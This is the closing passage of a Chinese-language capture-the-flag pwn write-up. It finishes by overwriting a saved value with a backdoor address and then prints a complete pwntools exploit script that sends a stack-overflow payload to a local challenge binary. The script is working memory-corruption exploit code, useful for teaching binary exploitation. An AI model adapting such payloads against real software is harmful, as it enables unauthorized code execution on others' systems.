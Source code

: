 此时只需要将对应的值替换为后门即可，成功完成利用

[![](assets/1699005690-8afc7b9704b5de2ce983677f04ac7990.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103154536-f99c4084-7a1c-1.png)

> 这里局部变量的调试比较枯燥，直接跟着断点看看哪里crash然后更改变量为合适的值即可，不做详细阐述

### exp

最终的参考exp如下

```plain
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

io = process('./pwn')
def p():
    gdb.attach(proc.pidof(io)[0],'b *0x401259')

# p()
backdoor = 0x401a7d    
io.recvuntil("called")
payload = b'a'*8
payload += b'b'*8
payload += b'c'*8
payload += p64(0xff) #防止crash
payload += p64(backdoor)
payload += p64(0x4a6001) #防止crash
payload += b'g'*8
payload += p64(0x004032a4+1)
payload += p64(0x402df0+1)
io.send(payload)

io.interactive()
```

> 在下篇文章将会深入介绍与传统ROP以及Sigreturn之间相互配合利用的攻击手法

打赏
